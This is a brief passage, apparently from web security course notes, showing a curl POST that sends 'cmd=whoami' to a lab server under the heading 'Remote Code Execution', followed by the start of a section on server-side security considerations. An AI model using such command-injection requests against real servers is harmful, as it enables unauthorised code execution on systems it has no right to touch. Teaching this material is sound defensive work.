 
**Remote Code Execution**

`curl -v -X POST http://pwst-server:8000  -d "cmd=whoami"`

![](assets/16554740549722.jpg)



## 3-3: Server Side Security Considerations
